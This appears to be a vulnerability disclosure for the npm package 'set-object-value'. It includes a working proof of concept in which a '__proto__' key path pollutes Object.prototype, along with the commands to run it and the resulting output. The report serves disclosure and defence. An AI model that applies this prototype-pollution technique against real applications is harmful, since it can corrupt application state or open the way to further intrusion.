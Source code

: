# Description

`set-object-value` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var setObjectValue = require("set-object-value")
var obj = {}
console.log("Before : " + {}.polluted);
setObjectValue(obj, ['__proto__','polluted'], 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i set-object-value # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
